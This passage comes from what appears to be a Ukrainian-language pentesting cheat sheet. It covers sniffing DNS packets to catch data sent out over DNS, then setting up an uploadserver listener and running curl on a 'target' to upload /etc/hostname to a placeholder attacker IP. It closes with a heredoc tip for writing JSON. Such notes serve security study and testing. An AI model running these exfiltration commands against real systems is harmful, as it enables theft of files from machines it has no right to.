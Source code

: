 ### 🔸 Просто слухати DNS-пакети:
```bash
tcpdump -i any port 53 -w exfil.pcap
```

### 🔸 Аналіз:
```bash
tshark -r exfil.pcap -Y "dns.qry.name" -T fields -e dns.qry.name
```

---

## 🌃 9. Ексфільтрація через uploadserver

### 🔸 На сервері (перехоплення):
```bash
pip install uploadserver & python3 -m uploadserver
```
### 🔸 Із авторизацією:
```bash
pip install uploadserver & python3 -m uploadserver --basic-auth hack:russia
```

### 🔸 На таргеті:
```bash
curl -F "files=@/etc/hostname" http://<attacker_ip>:<port>/upload
```

### 🔸 На таргеті з Basic Auth:
```bash
curl -u hack:russia -F "files=@/etc/hostname" http://<attacker_ip>:<port>/upload

```

## 🌃 10. Якщо немає vim/nano чи іншого редактора

```bash
cat >/tmp/json_base.json <<'JSON'
{
  "json": {
    "json2": {
      "provider": "whoami",
      "api_base": "https://example./v1",
      "api_key": "$API_KEY"
    }
  }
}
JSON
```

Це означає: 
- читай ввід до тих пір, поки не зустрінеш рядок з JSON.
- Все, що знаходиться між <<'JSON' і кінцевим JSON, піде у stdin для cat.	
- 'JSON' у лапках означає, що не буде відбуватись підстановка змінних ($API_KEY залишиться буквально як рядок "$API_KEY", а не підставиться його значення).	
- Вміст між <<'JSON' і кінцевим JSON
- З лапками (<<'JSON') — коли хочеш, щоб у файлі були буквальні $ і змінні не підставлялись.
- Без лапок (<<JSON) — коли треба, щоб у файл одразу підставились значення змінних.

---